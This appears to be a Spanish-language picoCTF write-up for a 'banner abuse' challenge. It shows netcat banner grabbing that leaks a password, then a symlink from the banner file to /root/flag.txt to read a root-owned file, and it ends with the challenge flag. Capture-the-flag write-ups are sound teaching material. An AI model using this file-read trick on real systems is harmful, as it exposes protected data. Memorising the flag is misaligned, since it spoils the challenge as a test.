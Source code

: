 
###### Descripción:
Can you abuse the banner?

The server has been leaking some crucial information on `tethys.picoctf.net 55383. Use the leaked information to get to the server.

To connect to the running application use nc tethys.picoctf.net 55460. From the above information abuse the machine and find the flag in the /root directory.


###### Pistas:

-Do you know about symlinks?
-Maybe some small password cracking or guessing



**Solución 1**

```
En kali linux:

──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55383 
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
                                                                                                          
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55460 
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234


What is the top cyber security conference in the world?
DEFCON


the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper


player@challenge:~$ rm /home/player/banner
rm /home/player/banner

player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
                                                                                                          
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55460
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password? 


```


## Respuesta: **picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}**
